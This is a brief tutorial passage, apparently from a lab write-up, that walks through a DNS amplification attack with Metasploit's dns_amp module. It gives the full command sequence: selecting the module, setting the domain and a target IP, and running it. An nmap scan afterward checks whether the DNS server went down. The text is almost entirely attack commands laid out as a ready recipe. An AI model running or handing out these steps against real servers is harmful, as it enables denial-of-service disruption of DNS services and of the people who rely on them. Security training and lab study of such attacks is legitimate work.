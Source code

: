 Now, we use DNS Amplification attack

```bash
msfconsole
```

```bash
search dns_amp
```

```bash
use 0
```

```bash
info
```

```bash
set DOMAINNAME nsa.gov
```

Check RPORT if it is the same as the one we found in the nmap scan.

```bash
set RHOSTS 192.168.19.139
```

```bash
run
```

Checking if DNS server is on or lost (in other terminal)

```bash
sudo nmap 192.168.19.139 -sU -p 53
```